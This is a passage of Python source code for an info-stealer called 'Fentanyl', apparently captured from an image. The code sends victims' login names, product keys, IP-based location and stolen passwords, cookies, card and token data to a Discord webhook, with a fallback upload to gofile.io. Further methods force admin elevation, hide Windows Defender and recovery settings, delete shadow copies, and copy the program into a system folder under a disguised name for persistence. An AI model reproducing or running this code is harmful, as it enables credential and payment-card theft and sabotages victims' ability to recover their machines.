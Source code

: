                     "description": f'**{os.getlogin()}** ran Fentanyl.\n\n**Computer Name:** {os.getenv("COMPUTERNAME")}\n**{wname}:** {wkey if wkey else "No Product Key!"}\n**IP:** {ip} (VPN/Proxy: {requests.get("http://ip-api.com/json?fields=proxy").json()["proxy"]})\n**City:** {city}\n**Region:** {region}\n**Country:** {country}\n[Google Maps Location]({googlemap})\n```ansi\n\u001b[32m{self.fileCount}\u001b[35m{self.files}``````ansi\n\u001b[32mStats:\n\u001b[35mPasswords Found: {self.stats["passwords"]}\nCookies Found: {self.stats["cookies"]}\nPhone Numbers Found: {self.stats["phones"]}\nCards Found: {self.stats["cards"]}\nAddresses Found: {self.stats["addresses"]}\nTokens Found: {self.stats["tokens"]}\nTime: {"{:.2f}".format(time.time() - self.starttime)}s```',
                    "color": 0x00FFFF,
                    "timestamp": time.strftime("%Y-%m-%dT%H:%M:%S.000Z", time.gmtime()),
                    "thumbnail": {
                      "url": "https://cdn.discordapp.com/attachments/976805447266877471/987826721250238464/c33cd7baf5e2abdf434c2793988ccb56.png"
                    },
                     "footer": {
                        "text": "Fentanyl Strikes Again!",
                        "icon_url": "https://cdn.discordapp.com/attachments/976805447266877471/987826721250238464/c33cd7baf5e2abdf434c2793988ccb56.png"
                    }
                }
            ]
        }
        fileEmbed = {
            "username": f"{os.getlogin()} | Fentanyl",
            "avatar_url":"https://cdn.discordapp.com/attachments/976805447266877471/987826721250238464/c33cd7baf5e2abdf434c2793988ccb56.png"
        }
        with open(_zipfile,'rb') as infozip:
            requests.post(self.webhook, json=embed)
            if requests.post(self.webhook, data=fileEmbed, files={'upload_file': infozip}).status_code == 413:
                infozip.seek(0)
                server = requests.get('https://api.gofile.io/getServer').json()['data']['server']
                link = requests.post(
                    url=f"https://{server}.gofile.io/uploadFile",
                    data={
                        "token": None,
                        "folderId": None,
                        "description": None,
                        "password": None,
                        "tags": None,
                        "expire": None
                },
                files={"upload_file": infozip},
                ).json()["data"]["downloadPage"]
                a = fileEmbed.copy()
                a.update({"content": f"{link}"})
                requests.post(self.webhook, json=a)
        os.remove(_zipfile)
    def forceadmin(self):
        self.system(f'set __COMPAT_LAYER=RunAsInvoker && powershell Start-Process \'{sys.argv[0]}\' -WindowStyle Hidden -verb runAs -ArgumentList \'--nouacbypass\'>nul')
        sys.exit()
    def persist(self):
        try: elevated = ctypes.windll.shell32.IsUserAnAdmin()
        except Exception: elevated = False
        if elevated:
            try:
                self.system(f'reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v "SettingsPageVisibility" /t REG_SZ /d "hide:recovery;windowsdefender" /f >nul')
                self.system(f'reagentc /disable >nul')
                self.system(f'vssadmin delete shadows /all /quiet >nul')
                shutil.copy2(sys.argv[0],'C:\\Windows\\Cursors\\')
                os.rename(os.path.join('C:\\Windows\\Cursors',os.path.basename(sys.argv[0]),'C:\\Windows\\Cursors\\cursors.cfg'))